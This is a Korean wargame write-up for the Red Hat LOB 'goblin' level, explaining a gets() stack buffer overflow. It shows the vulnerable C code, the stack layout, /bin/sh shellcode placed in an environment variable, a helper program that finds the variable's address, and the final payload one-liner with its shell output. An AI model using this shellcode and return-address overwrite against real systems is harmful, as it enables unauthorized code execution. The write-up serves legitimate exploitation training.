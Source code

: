 ============================================================================================================
[redhat-lob] (3) goblin
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="dummy * 20 + envp address"];
        b [shape=box, color=lightblue, label="gets"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="envp address"];
        e [shape=box, label="dummy * 100 + shellcode"];
    }


|

Source Code
============================================================================================================

.. code-block:: c

    int main()
    {
        char buffer[16];
        gets(buffer);
        printf("%s\n", buffer);
    }


|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (16byte)
    SFP     (4byte) 
    RET     (4byte)   
    argc    (4byte)   
    argv    (4byte)   
    envp    (4byte)   <
    ---------------
    HIGH    
    ===============
|

Buffer Overflow
============================================================================================================


.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./goblin
    aaaaaaaaaaaaaaaa

    aaaaaaaaaaaaaaaa

    $ ./goblin
    aaaaaaaaaaaaaaaaaaaa

    aaaaaaaaaaaaaaaaaaaa
    Segmentation fault

|

exploit
============================================================================================================

환경 변수 상에 쉘코드 등록
------------------------------------------------------------------------------------------------------------

환경 변수에 쉘코드를 등록해두고, 입력값 마지막 리턴 주소를 환경 변수 주소로 변경하여 해당 쉘코드를 실행하도록 한다.

.. code-block:: console

    $ export shellcode=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

|

환경 변수 주소값 확인
------------------------------------------------------------------------------------------------------------

다음과 같이 소스코드를 작성하여 shellcode 환경 변수에 대한 주소 값을 획득.

.. code-block:: c

    #include <stdio.h>
    int main(int argc, char **argv)
    {
            char *addr;
            addr = getenv(argv[1]);
            printf("address %p\n", addr);
            return 0;
    }

.. code-block:: console

    $ gcc -o get get.c

    get.c: In function `main':
    get.c:6: warning: assignment makes pointer from integer without a cast

    $ ./get shellcode

    address 0xbfffff02

|

RET를 환경 변수 주소로 덮어씌워 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (16byte)  <- dummy
    SFP     (4byte)   <- dummy
    RET     (4byte)   <- envp address
    envp    (4byte)   <- nopsled shellcode
    ---------------
    HIGH    
    ===============

|

오버플로우시 RET 주소를 환경 변수 주소로 변경하여 해당 쉘코드가 실행되도록 한다. 

gets의 경우 프로그램 실행 이후 값이 입력되어야 하기 때문에 다음 형식으로 변수를 입력합니다.

.. code-block:: console

    $ (python -c 'print "a"*20+"\x01\xff\xff\xbf"';cat) |./goblin
    aaaaaaaaaaaaaaaaaaaa▒▒▒

    whoami
    goblin
    my-pass
    euid = 503
    hackers proof

